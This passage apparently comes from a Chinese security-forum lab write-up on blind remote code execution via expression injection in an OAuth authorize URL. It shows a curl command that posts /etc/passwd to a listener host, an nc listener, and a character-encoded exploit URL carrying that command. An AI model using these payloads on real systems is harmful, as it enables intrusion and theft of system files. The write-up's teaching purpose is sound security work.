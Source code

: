![image-20210521083111824](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-852e375ed977c1cf19379d6381121c91170e9374.png)

这里注意：只是返回了进程，但实际上是命令执行

这是**无回显RCE**

#### 测试XXE

先在bash下做测试

```php
curl 192.168.175.130:8888 -d "$(cat /etc/passwd)" 

nc -lvp 8888
```

![image-20210521084442961](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-b74fbb563585316a6d4b5650dc0dac8f11f2e037.png)

![image-20210521084453479](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-cd9e9dd621ad8de7b370a5db73bcedb02dfa9011.png)

那么就将该命令放入poc中生成最终的payload

![image-20210521084757291](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-ee303af3724c71f13c9b181c0e1c26f7b5d078aa.png)

```php
http://192.168.175.209:8080/oauth/authorize?response_type=${T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(117)).concat(T(java.lang.Character).toString(114)).concat(T(java.lang.Character).toString(108)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(49)).concat(T(java.lang.Character).toString(57)).concat(T(java.lang.Character).toString(50)).concat(T(java.lang.Character).toString(46)).concat(T(java.lang.Character).toString(49)).concat(T(java.lang.Character).toString(54)).concat(T(java.lang.Character).toString(56)).concat(T(java.lang.Character).toString(46)).concat(T(java.lang.Character).toString(49)).concat(T(java.lang.Character).toString(55)).concat(T(java.lang.Character).toString(53)).concat(T(java.lang.Character).toString(46)).concat(T(java.lang.Character).toString(49)).concat(T(java.lang.Character).toString(51)).concat(T(java.lang.Character).toString(48)).concat(T(java.lang.Character).toString(58)).concat(T(java.lang.Character).toString(56)).concat(T(java.lang.Character).toString(56)).concat(T(java.lang.Character).toString(56)).concat(T(java.lang.Character).toString(56)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(45)).concat(T(java.lang.Character).toString(100)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(34)).concat(T(java.lang.Character).toString(36)).concat(T(java.lang.Character).toString(40)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100)).concat(T(java.lang.Character).toString(41)).concat(T(java.lang.Character).toString(34)).concat(T(java.lang.Character).toString(32)))}
&amp;client_id=acme&amp;scope=openid&amp;redirect_uri=http://test
```

![image-20210521084905830](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-aa37a77f93d11d34ff41609078d316da30e1aeed.png)
